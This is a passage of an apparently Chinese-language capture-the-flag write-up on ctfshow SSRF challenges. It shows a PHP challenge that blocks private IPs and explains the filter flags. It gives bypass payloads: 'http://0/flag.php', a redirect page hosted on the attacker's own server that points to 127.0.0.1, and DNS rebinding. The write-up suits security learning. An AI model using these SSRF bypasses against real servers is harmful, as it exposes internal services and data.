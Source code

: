 **小知识点，0在linux下会被解析成127.0.0.1，而在win中被解析成0.0.0.0.**

`payload：url=http://0/flag.php`

## web357

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}

echo file_get_contents($_POST['url']);
}
else{
    die('scheme');
}
?> scheme
```

看第9行的过滤器，FILTER_VALIDATE_IP 过滤器把值作为 IP 进行验证。

可能的标志：

- FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）
- FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）
- FILTER_FLAG_NO_PRIV_RANGE - 要求值是 RFC 指定的私域 IP （比如 192.168.0.1）
- FILTER_FLAG_NO_RES_RANGE - 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。

**返回值是过滤后的数据，如果过滤失败则返回FALSE**

第一种解法是在自己的vps上写个test.php

```php
<?php
header("Location:http://127.0.0.1/flag.php"); 
```

`payload：url=http://xxx/test.php`

第二种解法是利用dns重绑定漏洞，**大佬文章：https://zhuanlan.zhihu.com/p/89426041**

![image-20220113025537987](image/ctfshow-SSRF(351-360)/image-20220113025537987.png)

在ceye上进行dns重绑定
